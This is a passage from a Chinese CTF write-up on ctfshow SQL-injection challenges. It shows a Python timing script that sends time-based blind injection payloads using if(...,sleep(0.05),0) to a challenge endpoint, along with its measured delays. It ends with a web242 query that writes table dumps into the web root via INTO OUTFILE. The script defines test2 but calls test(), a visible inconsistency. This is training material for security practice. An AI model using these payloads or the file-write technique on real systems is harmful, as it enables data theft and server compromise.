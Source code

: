 为什么sleep设定的是0.03，但是超时时间是大于0.2呢

那是因为要对所有记录都算一遍 if

那我们怎么测试这个时间呢，这里放一个大佬的脚本

[Practice - CTFSHOW WEB入门 SQL注入篇](https://hextuff.dev/2021/07/29/ctfshow-web-getting-started-sql-injection/)

```
url = 'http://58e7b03f-3c20-48e0-a8f8-9a3efa102f6d.challenge.ctf.show:8080/api/delete.php'


def test2() -> float:
    rand = random.random()
    time_s = time.time()
    _ = requests.post(url,data={"id": f"if({1 if rand > 0.5 else 0},sleep(0.05),0)"})
    time_e = time.time()
    return (rand > 0.5, time_e - time_s)

print([test() for _ in range(30)])
```

我测出来的结果

```
[(False, 0.09313225746154785), (True, 1.087439775466919), (True, 1.599609375), (True, 1.6065845489501953), (True, 1.6024441719055176), (False, 0.5998048782348633), (False, 0.0730128288269043), (True, 1.0801937580108643), (True, 1.6085357666015625), (False, 0.1298365592956543), (True, 1.089057445526123), (False, 0.6771323680877686), (True, 1.0864779949188232), (True, 1.6023609638214111), (False, 0.07814288139343262), (False, 0.07692098617553711), (False, 0.07593393325805664), (True, 1.082731008529663), (False, 0.07544946670532227), (True, 1.606881856918335), (True, 1.609898567199707), (False, 0.08498406410217285), (True, 1.0778491497039795), (True, 1.0797111988067627), (True, 1.0858359336853027), (False, 0.08560538291931152), (False, 0.08359408378601074), (False, 0.08201932907104492), (False, 0.07815837860107422), (True, 1.085575819015503)]
```

在false和true之间选取一个合适的值即可，目的是能够进行区分，我这里选取了0.2



#### 文件注入

#### web242

```php
sql语句

  //备份表
  $sql = "select * from ctfshow_user into outfile '/var/www/html/dump/{$filename}';";
      
返回逻辑

  //无过滤

```
